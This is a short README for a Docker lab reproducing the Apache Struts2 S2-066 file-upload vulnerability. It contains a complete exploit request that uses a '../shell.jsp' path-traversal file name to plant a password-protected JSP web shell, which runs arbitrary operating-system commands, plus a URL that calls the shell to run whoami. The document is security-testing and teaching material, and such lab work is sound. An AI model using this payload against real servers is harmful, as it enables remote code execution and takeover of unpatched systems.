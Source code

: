 # Struts2 S2-066

[中文版本(Chinese version)](README.zh-cn.md)

## Setup

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080/struts-1.0-SNAPSHOT` and you will see a simple page.

## Exploit


```
POST /struts-1.0-SNAPSHOT/upload.action HTTP/1.1
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain

<% if("test".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="uploadFileName"; 
Content-Type: text/plain

../shell.jsp
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--

```

`http://127.0.0.1:8080/struts-1.0-SNAPSHOT/shell.jsp?pwd=test&cmd=whoami`